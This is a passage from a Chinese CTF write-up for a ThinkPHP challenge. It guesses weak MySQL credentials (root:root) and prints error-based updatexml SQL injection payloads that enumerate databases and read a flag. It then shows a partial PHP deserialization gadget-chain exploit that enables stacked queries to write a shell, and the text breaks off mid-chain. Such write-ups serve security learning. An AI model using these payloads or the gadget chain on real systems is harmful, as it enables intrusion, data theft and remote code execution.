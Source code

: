 ![image-20211219200242251](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211219200242251.png)

看到了mysql用户，尝试弱口令得到root: root

之后就可以把我们的伪服务端撤了，换成真服务端的，进行一个注入

- 使用目标的数据库配置再次进行反序列化
- 触发`DELETE`语句的SQL注入

```php
$this->data[$this->pk] = array(
                // "table" => "mysql.user where  1=updatexml(1,concat(0x7e,(select left(group_concat(schema_name),31) from information_schema.SCHEMATA)),1)#",
                // "table" => "mysql.user where  1=updatexml(1,concat(0x7e,(select right(group_concat(schema_name),31) from information_schema.SCHEMATA)),1)#",
                // "table" => "mysql.user where  1=updatexml(1,concat(0x7e,(select left(group_concat(table_name),31) from information_schema.tables where table_schema='test'),0x7e),1)#",
                // "table" => "mysql.user where  1=updatexml(1,concat(0x7e,(select left(group_concat(column_name),31) from information_schema.columns where table_schema='test'),0x7e),1)#",
                "table" => "mysql.user where  1=updatexml(1,concat(0x7e,(select right(group_concat(flag),31) from test.flag),0x7e),1)#",
                "where" => "1=1"
            );
```

我们还可以把堆叠打开，用堆叠注入写shell，也就是本题的exp（参考[赵总的exp](https://www.zhaoj.in/read-6859.html#WEB3_easytp) 赵总牛逼

```php
<?php
namespace Think\Db\Driver{
    use PDO;
    class Mysql{
        protected $options = array(
            PDO::MYSQL_ATTR_LOCAL_INFILE => true ,   // 开启才能读取文件
            PDO::MYSQL_ATTR_MULTI_STATEMENTS => true,    // 打开堆叠注入
        );
        protected $config = array(
            "debug"    => 1,
            "database" => "",
            "hostname" => "127.0.0.1",
            "hostport" => "3306",
            "charset"  => "utf8",
            "username" => "root",   // 猜出弱口令
            "password" => "root"
        );
    }
}

namespace Think\Image\Driver{
    use Think\Session\Driver\Memcache;
    class Imagick{
        private $img;

        public function __construct(){
            $this->img = new Memcache();
        }
    }
}

namespace Think\Session\Driver{
    use Think\Model;
    class Memcache{
        protected $handle;

        public function __construct(){
            $this->handle = new Model();
```